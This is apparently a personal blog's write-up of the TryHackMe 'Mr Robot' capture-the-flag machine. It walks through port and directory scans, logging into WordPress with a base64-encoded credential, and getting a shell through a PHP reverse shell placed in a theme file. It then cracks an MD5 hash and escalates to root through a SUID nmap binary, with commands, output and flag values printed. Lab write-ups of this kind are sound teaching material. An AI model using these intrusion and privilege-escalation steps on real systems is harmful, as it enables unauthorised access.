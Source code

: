 ```yaml
---
tagline: mrrobotctf
title: Mr Robot CTF [Writeup]
description: One of the top-tier challenges on TryHackMe, revered as a GOAT in THM Machines.
banner: /blog/mrrobotctfbanner.jpeg/
banner_alt: redrum redrum all we know is redrum
date: '2024-03-3'
---
```


## Foreword

I've come to understand that many people don't grasp my write-ups due to a knowledge gap. Therefore, I'll be explaining every step along the way. Hope you enjoy as I s!

## Nmap Scan

- What is Nmap? Nmap is a tool used for checking open ports in a server. This is typically the first step when tackling a machine. Below is the command I will be using.

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.199.158
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 23:06 EST
Nmap scan report for 10.10.199.158
Host is up (0.097s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.96 seconds
```

- We now know that there is a closed SSH port, an open HTTP port indicating the presence of a website accessible through a browser, and port 443 running both SSL and HTTP.

## Accessing the website

![Image showing the website](/blog/mrrobotctf/website.png 'Fig.1')

- Damn, for a machine the website is well built. After some poking and prodding, I don't seem to see anything on the homepage. Next step is a Dirsearch.

## Dirsearch

_ A Directory Search involves brute-forcing to discover existing directories, helping you understand your attack surface.

```bash:Terminal
──(vipin㉿vipin)-[~]
└─$ dirsearch -u 10.10.199.158 --exclude-status 301,400,403,404,408
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                      
 (_||| _) (/_(_|| (_| )                                                                               
                                                                                                      
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/vipin/reports/_10.10.199.158/_24-03-03_00-09-46.txt

Target: https://10.10.199.158/

[00:09:47] Starting:                                                                                  
[00:11:37] 302 -    0B  - /dashboard  ->  https://10.10.199.158/wp-admin/   
[00:11:37] 302 -    0B  - /dashboard/  ->  https://10.10.199.158/wp-admin/  
[00:11:51] 200 -    0B  - /favicon.ico                                      
[00:12:10] 200 -  504KB - /intro                                            
[00:12:15] 200 -  158B  - /license                                          
[00:12:15] 200 -  158B  - /license.txt                                      
[00:12:18] 302 -    0B  - /login  ->  https://10.10.199.158/wp-login.php    
[00:12:18] 302 -    0B  - /login/  ->  https://10.10.199.158/wp-login.php   
[00:12:55] 200 -   64B  - /readme                                           
[00:12:55] 200 -   64B  - /readme.html                                      
[00:12:58] 200 -   41B  - /robots.txt                                       
[00:13:08] 200 -    0B  - /sitemap                                          
[00:13:08] 200 -    0B  - /sitemap.xml.gz                                   
[00:13:08] 200 -    0B  - /sitemap.xml
[00:13:39] 302 -    0B  - /wp-admin/  ->  https://10.10.199.158/wp-login.php?redirect_to=https%3A%2F%2F10.10.199.158%2Fwp-admin%2F&reauth=1
[00:13:39] 200 -   21B  - /wp-admin/admin-ajax.php
[00:13:39] 500 -    3KB - /wp-admin/setup-config.php
[00:13:40] 200 -    0B  - /wp-config.php                                    
[00:13:40] 200 -    0B  - /wp-content/                                      
[00:13:41] 200 -    0B  - /wp-content/plugins/google-sitemap-generator/sitemap-core.php
[00:13:41] 500 -    0B  - /wp-content/plugins/hello.php                     
[00:13:41] 500 -    0B  - /wp-includes/rss-functions.php                    
[00:13:41] 200 -    1KB - /wp-login                                         
[00:13:41] 200 -    1KB - /wp-login.php
[00:13:41] 200 -    1KB - /wp-login/                                        
[00:13:41] 302 -    0B  - /wp-signup.php  ->  https://10.10.199.158/wp-login.php?action=register
[00:13:41] 200 -    0B  - /wp-cron.php                                      
[00:13:43] 405 -   42B  - /xmlrpc                                           
[00:13:43] 405 -   42B  - /xmlrpc.php
                                                                             
Task Completed
```

## Key 1

- Looking through all the directories, *robots.txt* has the first key for us

![Image showing the robots.txt](/blog/mrrobotctf/robotstxt.png 'Fig.2')

## Key 2

- When we look in */license*, we find the string "ZWxsaW90OkVSMjgtMDY1Mgo=" which seems to be base64

![Image showing the output](/blog/mrrobotctf/base64output.png 'Fig.3')

- Lets login with that in */login*

![Image showing we r in](/blog/mrrobotctf/dashboard.png 'Fig.4')

- And we are in! Lets exploit it.

- I started by using the same reverse shell script I used in [RootMe](https://www.vipinb.xyz/blog/rootme#obtaining-the-user-flag) and editing a random theme file with the php code and I got user access!

```bash:Terminal
daemon@linux:/$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

- Ruh roh, can't go in. Lets crack that password though.

![Image showing cracked password](/blog/mrrobotctf/hashcracked.png 'Fig.5')

```bash:Terminal
daemon@linux:/$ su robot
su robot
su: must be run from a terminal
daemon@linux:/$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz             
```

- And I did get the flag!

## Key 3

- I ran ```find / -user root -perm -4000 -exec ls -ldb {} \;``` to see exploitable SUID Binaries and nmap was one. Using GTFOBINS I found that you can run ```nmap --interactive``` and say ```!sh``` to get a shell. 

```bash:Terminal
robot@linux:/$ nmap --interactive               
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv  tmp  var
boot  etc  initrd.img  lib64  media       opt  root  sbin  sys  usr  vmlinuz
# cd root
cd root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

![My Tryhackme badge yuh](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)